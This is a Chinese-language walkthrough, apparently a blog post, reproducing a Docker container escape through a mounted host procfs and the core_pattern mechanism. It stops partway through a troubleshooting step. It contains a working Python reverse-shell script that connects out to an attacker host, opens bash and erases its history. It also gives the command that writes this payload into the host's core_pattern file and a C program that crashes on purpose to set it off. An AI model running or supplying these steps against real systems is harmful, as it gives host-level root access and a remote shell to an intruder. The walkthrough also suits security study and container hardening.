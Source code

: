 **Docker 默认情况下不会为容器开启 User Namespace**  
根据参考资料 1，一般情况下不会将宿主机的 procfs 挂载到容器中，然而有些业务为了实现某些特殊需要，还是会有。  
一些细节原理看参考资料 1 哈，这里专注于利用。  
复现：“在挂载 procfs 的容器内利用 core_pattern 后门实现逃逸 “  
利用思路：攻击者进入到挂载了宿主机 profs 的容器，root 权限，然后向宿主机的 procfs 写 Payload

*   在容器内创建反弹 Shell 的 Exp，/tmp/.x.py (. 为隐藏文件

apt-get update  
apt-get install vim  
apt-get install gcc (用于编译一个可以崩溃的程序，容器环境下一般都不自带这些常用的工具，包括 ping 之类的。

```
import os
import pty
import socket
lhost = "attacker-ip"
lport = 10000
def main():
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect((lhost, lport))
 os.dup2(s.fileno(), 0)
 os.dup2(s.fileno(), 1)
 os.dup2(s.fileno(), 2)
 os.putenv("HISTFILE", "/dev/null")
 pty.spawn("/bin/bash")
 os.remove("/tmp/.x.py")
 s.close()
if __name__ == "__main__":
 main()


```

*   echo -e "|/tmp/.x.py \rcore" > /host/proc/sys/kernel/core_pattern
*   在容器内运行一个可以崩溃的程序

```
int main(void) {
int *a = NULL;
*a = 1;
return 0;
}

```

这里我仔细检查了很久，和文献中的步骤一样，没有错，就是不弹 Shell。然后找到了另一篇文章，并且在 7 月份的时候有过一次更新。[https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/](https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/)

> 这是因为 Linux 转储机制对 / proc/sys/kernel/core_pattern 内程序的查找是在宿主机文件系统进行的，而我们的 / tmp/.x.py 是容器内路径。

根据文章中提到的小技巧，操作一下步骤：  
在 Docker 容器中：

*   cat /proc/mounts | grep docker  
    拿到当前容器在宿主机上的绝对路径。
    